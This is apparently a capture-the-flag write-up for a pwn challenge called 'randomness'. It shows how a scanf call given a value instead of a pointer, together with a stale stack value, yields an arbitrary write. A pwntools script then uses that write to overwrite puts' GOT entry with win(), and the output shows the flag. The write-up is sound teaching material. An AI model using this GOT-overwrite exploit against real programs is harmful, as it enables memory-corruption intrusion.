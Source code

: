     I made this program to test how srand and rand work, but it keeps segfaulting. I don't read compiler warnings so I can't figure out why it's broken.
Gives us an hint where the problem may lay, compiling it:

    randomness.c: In function ‘bar’:
    randomness.c:21:14: warning: format ‘%lu’ expects argument of type ‘long unsigned int *’, but argument 2 has type ‘long unsigned int’ [-Wformat=]
       21 |     scanf("%lu", a);
          |            ~~^   ~
          |              |   |
          |              |   long unsigned int
          |              long unsigned int *
The scanf() in bar()  requires a pointer to a destination, but we are passing the value of the destination. Running the program in gdb to see how arguments are passed I noticed that the value that we insert within the foo() function will be also the value of a (since a is uninitialized) in the scanf().
So we have the  opportunity to write an arbitrary integer everywhere,(kinda good primitive!), we can overwrite a function to be win(). We can take advantage of the intensive use of puts, and because a call to puts is after the execution of bar() we will exploit it!
```python
from pwn import *
context.log_level = 'debug'
elf = context.binary = ELF('./randomness')
io = elf.process()
puts = str(elf.got['puts']).encode()
win = str(elf.sym['win']).encode()
io.sendline(puts)
io.sendline(win)
io.interactive()
```
Running it we get:

    hello!
    Enter a seed:
    Enter your guess:
    gigem{value_or_pointer_is_an_important_distinction}

Thanks for reading!
